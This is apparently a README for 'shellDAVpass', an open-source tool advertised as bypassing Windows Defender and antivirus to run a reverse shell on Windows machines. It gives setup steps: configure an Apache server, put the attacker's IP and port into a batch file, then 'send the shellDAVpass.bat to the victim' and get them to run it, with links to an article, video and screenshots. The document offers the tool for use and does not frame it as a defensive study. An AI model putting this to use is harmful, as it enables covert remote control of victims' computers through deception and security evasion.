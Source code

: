 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
[Watch the video](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVpass-demo.mov)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-001.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-002.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-003.png)

![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell.png)
